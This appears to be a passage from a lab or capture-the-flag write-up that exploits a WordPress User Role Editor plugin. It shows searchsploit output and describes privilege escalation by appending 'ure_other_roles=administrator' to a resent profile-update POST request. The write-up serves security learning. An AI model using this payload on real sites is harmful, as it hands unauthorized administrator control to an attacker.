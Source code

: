 ## Exploit the plugin

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ searchsploit wordpress "user role"
------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                        |  Path
------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin User Role Editor 3.12 - Cross-Site Request Forgery                                   | php/webapps/25721.txt
WordPress Plugin User Role Editor < 4.25 - Privilege Escalation                                       | php/webapps/44595.rb
------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The privesc exploit is simple, we just append **`&ure_other_roles**=**administrator`** to end of profile update post to become wordpress administrator.

We’ll make an update to our profile through the UI, capture the traffic in Zap and the re-send the POST message with our extra parameter at the end. 

![Screenshot 2023-07-21 at 6.44.37 PM.png](/assets/jack/Screenshot_2023-07-21_at_6.44.37_PM.png)

